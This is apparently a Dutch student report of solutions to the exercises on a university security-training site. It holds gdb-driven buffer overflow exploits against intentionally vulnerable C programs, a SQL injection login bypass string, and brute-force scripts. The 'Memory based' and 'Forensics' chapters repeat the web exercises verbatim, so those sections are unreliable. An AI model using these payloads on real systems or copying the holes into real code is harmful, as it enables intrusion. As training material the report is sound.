\documentclass[a4paper,11pt]{report}

\usepackage[a4paper]{geometry}
\usepackage[dutch]{babel}
\usepackage{hyperref}
\usepackage{color}
\usepackage{listings}
\usepackage{parskip}
\usepackage{textcomp}
\usepackage{graphicx}

\definecolor{lbcolor}{rgb}{0.85,0.85,0.85}
\definecolor{LinkColor}{rgb}{0,0,0.5}
\lstset{language=bash,
numbers=left,
stepnumber=1,
numbersep=5pt,
numberstyle=\tiny,
breaklines=true,
breakautoindent=true,
postbreak=\space,
tabsize=2,
basicstyle=\ttfamily\footnotesize,
showspaces=false,
showstringspaces=false,
extendedchars=true,
backgroundcolor=\color{lbcolor}
}

\bibliographystyle{plain}

\begin{document}

\title{Beveiligingssite: Oplossingen Oefeningen}
\date{7 maart 2014}
\author{Adriaan Dens (r0257589)\\
	Jan Weyens (s0205128)\\
	Klaas Janssens (r0429246)\\
	Quinten Van Der Auwera (r0258371)
}	

\maketitle

\tableofcontents

\chapter{Inleiding}
In het vijfde semester van de opleiding Toegepaste Informatica aan de Katholieke Hogeschool Leuven krijgt men het vak ``Beveiliging''. Dit voornamelijk theoretisch vak geeft de studenten een inleiding tot veiligheidsproblemen in de Informatica. Ons eindwerk richt er zich op een plaats te voorzien om deze theorie in de praktijk om te zetten en om informatie te voorzien voor studenten die meer willen weten.

\newpage

\chapter{Web-based}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Rechtermuisknop op dropdown-menu
  \item Inspect Element
  \item Open \textless select id...\textgreater
  \item Verander de Value van Joske naar Jan
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item Dit is een brute-force oefening
  \item Om het brute-forcen te vereenvoudigen kan er rekening gehouden worden met de verdeling van de letters in het engels
  \begin{enumerate}
  \item vb: e komt meer voor dan x
  \end{enumerate}
  \item the amazing dragon is defending the evidence in the classroom without pants
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item Save image
  \item Rechter muisknop, eigenschappen
  \item Tablad details
  \item Bij Copyright staat: wachtwoord: portretvanjan
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item Kopi"eer de opgave in een hex-ASCII converter
  \item De uitkomst nog eens converten van hex naar ASCII
  \item Oplossing: powerpudding
\end{enumerate}
\section{Oefening 10}
Deze oefening kan enkel opgelost worden door middel van het schrijven van een brute-force script.
\begin{lstlisting}
hashCode = function(s) {
	return s.split("").reduce(function(a,b) {
		a = ((a << 5) - a) + b.charCodeAt(0);
		return a&a
	}, 0);              
}

var chars = "abcdefghijklmnopqrstuvwxyz";

function brute(str) {
	if (str.length < 6) {
		var copy = str;
		
		for (var i =0; i < chars.length; i++) {
			copy = str;
			copy += chars.substring(i,i+1);
			if (hashCode(copy) == 97532594) {
				console.log(copy);
			} else {
				brute(copy);
			}
			
			if (str.length == 0) {
				console.log("Mogelijkheden met letter " + copy + " voltooid.");
			}
		}
	}
}

brute("");

Na enkele seconden vinden wij het volgende paswoord: "flups"
\end{lstlisting}
\section{Oefening 11}
\begin{enumerate}
  \item Google: braille alphabet
  \item de . wil zeggen dat het woord met een hoofdletter begint
  \item Bij het vertalen van de afbeelding krijgen we de oplossing
  \item Stevie Wonder
\end{enumerate}
\section{Oefening 12}
\begin{enumerate}
  \item Typ bij Username: checkenstunt' OR '1'='1
  \item Password mag leeg gelaten worden
\end{enumerate}
\section{Oefening 13}
Om de data uit de afbeelding te halen is men verplicht om een script te schrijven. Het onderstaande script is een voorbeeldscript. Wanneer we het script runnen krijgen een tekst.
\begin{lstlisting}
/*
Based on https://gist.github.com/niw/5963798
*/

#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <png.h>

void read_png_file(char*);

int main(int argc, char** argv) {
	if(argc != 2) {
		fprintf(stderr, "Usage: %s filename_picture\n", argv[0]);
		exit(1);
	}

	FILE *fp = fopen(argv[1], "rb");	

	png_structp png = png_create_read_struct(PNG_LIBPNG_VER_STRING, NULL, NULL, NULL);
	png_infop info = png_create_info_struct(png);
	if(setjmp(png_jmpbuf(png))) abort();

	png_init_io(png, fp);

	png_read_info(png, info);
	int width = png_get_image_width(png, info);
	int height = png_get_image_height(png, info);

	png_bytep* row_pointers = (png_bytep*) malloc(sizeof(png_bytep) * height);
	int x, y;
	for(y = 0; y < height; y++)
		row_pointers[y] = (png_byte*) malloc(png_get_rowbytes(png,info));

	png_read_image(png, row_pointers);
	fclose(fp);

	unsigned char e = 0; int bits_written = 0;
	for(y = 0; y < height; y++) {
		png_bytep row = row_pointers[y];
		for(x = 0; x < width; x++) {
			e = e << 1;
			if(row[x] & 1) e++;
				bits_written++;

			if(bits_written == 8) {
				printf("%c", e);
				e = 0; bits_written = 0;
			}
		}
	}

	return 0;
}

Do you see any Teletubbies in here? Do you see a slender plastic tag clipped to my shirt with my name printed on it? Do you see a little Asian child with a blank expression on his face sitting outside on a mechanical helicopter that shakes when you put quarters in it? No? Well, that's what you see at a toy store. And you must think you're in a toy store, because you're here shopping for an infant named Jeb. (From http://slipsum.com)
\end{lstlisting}
\section{Oefening 14}
De eerste oplossing van deze evil\_usb.dd kan men vinden door het bekijken van de aanwezig browser history.\\
Hier kan men een link naar Google Maps met co\"ordinaten terugvinden. Wanneer deze co\"ordinaten in Google Maps worden ingevoerd wordt "Ketenislaan" gevonden.\\\\
De tweede oplossing is iets moeilijker. Eerst controleren we met behulp van het fls-commando de verwijderde bestanden. Na het uitvoeren van ``fls -r evil\_usb.dd'' worden er 4 foto's gevonden.\\\\
De oplossing is de link tussen deze foto's. Amerika.
\section{Oefening 15}
\begin{enumerate}
  \item Het lezen van de letters van de woorden van rechts naar links
  \item encryptie koning
\end{enumerate}
\section{Oefening 16}

\includegraphics[scale=0.5]{encryptie/oef16.png}
\\\\Uit bovenstaande afbeelding kunnen we de oplossing berekenen: kikkerkermit
\section{Oefening 17}
\begin{enumerate}
  \item Surf naar Google Translate
  \item Geef de opgave in
  \item Google kan automatisch een taal detecteren
  \item voetbal
\end{enumerate}
\section{Oefening 18}
Een manier om deze oefening op te lossen is door middel van brute-forcen. Dit kan op de website zelf gedaan worden in de console (CTRL + SHIFT + j). Onderstaande script is een voorbeeld oplossing.
\\\\
De naam van de afbeeldingen zijn altijd volgens de dezelfde structuur opgeslagen: `cijfer' + `teken' + `teken'.
\\\\
Het wachtwoord is 20 tekens lang. Er staatn 2 letters per afbeelding, dus moeten we 10 afbeeldingen vinden in totaal.De eerste 2 zijn al gegeven, dus het script moet beginnen bij 3.(De eerste lus)
\\\\
De volgende twee lussen dienen om de alle mogelijke tekens te overlopen. Een lus voor het eerste teken en een lus voor het tweede teken.
\\\\
In dit script zal de afbeelding direct in HTML geplaatst worden. Hierdoor zien we onmiddellijk wanneer de volgende 2 letters gevonden zijn.
\\\\
In de code van deze website staan divs met class 'uitlijnen', dit kan via Javascript makkelijk aangesproken en uitgebreid worden. Er kan hier ook een ander element op basis van een class of id gebruikt worden.
\\\\
Het is mogelijk dat de website dit script niet kan uitvoeren, dan moet men de buitenste for-lus verwijderen en de volgende lijn manueel aanpassen:
\begin{lstlisting}
<img src="/bestanden/18/' + i + abc[j] + abc[k] + '.png">'; naar
	<img src="/bestanden/18/3 + abc[j] + abc[k] + '.png">';
	<img src="/bestanden/18/4 + abc[j] + abc[k] + '.png">';
	...
	<img src="/bestanden/18/10 + abc[j] + abc[k] + '.png">';
\end{lstlisting}

Uiteindelijk vinden we het volgende wachtwoord: dgv255eifx6xqwfzslwv

\begin{lstlisting}
var abc = "abcdefghijklmnopqrstuvwxyz123456789";

for (var i = 3; i <= 10; i++) {
	for (var j = 0; j < abc.length; j++) {
		for (var k = 0; k < abc.length; k++) {
			document.getElementsByClassName("uitlijnen")[0].innerHTML += '<img src="/bestanden/18/' + i + 
				abc[j] + abc[k] + '.png">';
		}
	}
}
\end{lstlisting}
\section{Oefening 19}
\begin{enumerate}
  \item Oplossen m.b.v Wikipedia: http://nl.wikipedia.org/wiki/Vigen\%C3\%A8recijfer
  \item De key: mintymagnet
  \begin{enumerate}
  \item Linker kolom: M, Rechter kolom: R = F
  \item LK: I, RK: T = L
  \item ...
  \item LK: E, RK: W = S
  \item LK: T RK: A = H
  \end{enumerate}
  \item floppyflash
\end{enumerate}
\section{Oefening 20}
\begin{lstlisting}
Key: LEONARDO en DAVINCI
Opgave: dmo ua pda mae wi et wuk

D A V I N C I		1) dmo verticaal schrijven onder 1
3 1 7 4 6 2 5		2) ua onder 2
-------------		   ...
P D W M E U W		7) wuk onder 7
D M U A T A I
A O K E

L E O N A R D O		1) PD verticaal onder 1
4 3 6 5 1 8 2 7		2) WM onder 2
---------------		3) EUW onder 3
D E A A P K W A		   ...
M U I T D E M 0		8) KE onder R
U W     

Oplossing: de aap kwam uit de mouw
\end{lstlisting}

\newpage

\chapter{Memory based}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Rechtermuisknop op dropdown-menu
  \item Inspect Element
  \item Open \textless select id...\textgreater
  \item Verander de Value van Joske naar Jan
  \item Druk op Verzend
\end{enumerate}

\newpage

\chapter{Forensics}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
